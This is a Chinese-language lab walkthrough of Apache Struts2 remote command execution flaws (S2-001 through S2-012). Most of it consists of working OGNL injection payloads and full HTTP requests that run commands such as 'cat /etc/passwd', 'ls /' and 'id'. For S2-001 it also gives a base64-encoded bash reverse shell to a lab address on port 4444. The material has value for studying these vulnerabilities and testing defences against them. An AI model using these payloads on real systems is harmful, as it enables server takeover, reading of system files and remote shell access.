# structs2-001(远程命令执行)

### 漏洞背景

> 该漏洞因为用户提交表单数据并且验证失败时,后端会将用户之前提交的参数值使用`OGNL`表达式`%{value}`进行解析,让后重新填充到对应的表单数据中.例如注册或登录页面,提交失败后端一般会默认返回之间提交的数据,由于后端使用`%{value}`对提交的数据执行了一次`OGNL`表达式解析,所以可以直接构造payload进行命令执行

### 开始攻击

- 构造`OGNL`表达式



- 发现表达式被执行了



- 尝试tomcat执行路径

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```



- 获取的路径`tomcatBinDir{/usr/local/tomcat}`

- 尝试获取网站路径

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```



- 开始尝试反弹`shell`

```bash
# 使用base64编码
bash -i >& /dev/tcp/192.168.2.13/4444 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMvNDQ0NCAwPiYx

#构造payload
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"bash","-c","{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```


- 反弹成功



****

# structs2-005(远程命令执行)

> s2-005

- `burp抓包`看一下



- 构造payload,发送数据包(这里需要修改请求方法为post)

```http
POST /example/HelloWorld.action HTTP/1.1
Host: 192.168.2.254:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=D0222EC6F06798698F5BADA80CA06033
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 666

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```


- `%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27`->`cat /etc/passwd`

****

# structs2-007

> s2-007 age来自用户输入,传递一个非整数给id导致错误,structs2会将用户的输入当作`ongl`表达式执行,从而导致漏洞

### 开始攻击

- `编码前的poc`

```http
'+++(#_memberAccess["allowStaticMethodAccess"]=true,#foo=new+java.lang.Boolean("false")+,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ls /').getInputStream()))+++'
```

```http
POST /user.action HTTP/1.1
Host: 192.168.2.254:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 359
Origin: http://192.168.2.254:8080
Connection: keep-alive
Referer: http://192.168.2.254:8080/
Cookie: JSESSIONID=DBF32B918CBF71AE8C170408006BCD9B
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=1&email=1&age=%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27ls%20/%27%29.getInputStream%28%29%29%29+%2B+%27
```



****

# structs2-008

> s2-008 Cookie拦截器错误配置造成`ofnl`表达式执行

- poc

```http
GET /devmode.action?debug=command&expression=%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2c%23f.setAccessible(true)%2c%23f.set(%23_memberAccess%2ctrue)%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec(%22id%22).getInputStream()%2c%23b%3dnew%20java.io.InputStreamReader(%23a)%2c%23c%3dnew%20java.io.BufferedReader(%23b)%2c%23d%3dnew%20char%5b50000%5d%2c%23c.read(%23d)%2c%23genxor%3d%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2c%23genxor.println(%23d)%2c%23genxor.flush()%2c%23genxor.close() HTTP/1.1
Host: 192.168.2.254:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.2.254:8080/
Connection: keep-alive
Cookie: JSESSIONID=987545820D0AD885A14BAA84D41888E2
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```



****

# structs2-009

> s2-009

### 开始攻击

- 访问8080端口



- 构造paylaod

```http
?age=12313&name=(%23context["xwork.MethodAccessor.denyMethodExecution"]=+new+java.lang.Boolean(false),+%23_memberAccess["allowStaticMethodAccess"]=true,+%23a=@java.lang.Runtime@getRuntime().exec("cat /etc/passwd").getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)('meh')]
```


****

# structs2-012

> s2-012



- payload

```http
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```



****

………………
